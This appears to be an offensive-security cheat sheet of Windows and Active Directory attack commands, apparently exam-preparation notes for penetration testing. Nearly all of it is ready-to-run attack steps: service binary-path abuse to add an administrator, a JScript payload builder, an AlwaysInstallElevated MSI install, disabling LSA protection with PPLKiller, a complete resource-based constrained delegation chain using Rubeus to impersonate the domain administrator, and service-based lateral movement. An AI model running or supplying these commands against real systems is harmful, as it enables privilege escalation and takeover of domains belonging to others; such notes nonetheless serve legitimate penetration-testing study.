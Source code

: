 Service CheatSheet
---------------------
sc config SNMPTRAP binpath= "cmd.exe /c net localgroup administrators john /add" start= "demand" obj= "NT AUTHORITY\SYSTEM" password= ""

HTA JS PAYLOAD
---------------------
DotNetToJScript
```powershell
DotNetToJScript.exe ExampleAssembly.dll --lang=JScript --ver=4 -o payload.js
```
Install AlwaysElevated
-----------------------
```powershell
Create MSI Package to run
dotnet build -p:Platform=x64 -c Release
cmd.exe /c "msiexec /quiet /qn /i InstallMe.msi"
```

Run the combined ligolo agent with ApplockerBypass
-----------------------

If LSA Protection 
--------------------
```powershell
PPLKiller.exe /installDriver
```
RBCD
--------------------
```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer file05 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/file05 /ptt
```

Lateral Movement
---------------------
 -> https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Fileless%20Lateral%20Movement

```powershell
lat.exe <server> <service name> <payload.exe>
Lat.exe file05 SensorService “C:\windows\tasks\inj.exe”
``` 

uacbypass.ps1
SigmaPotato.exe
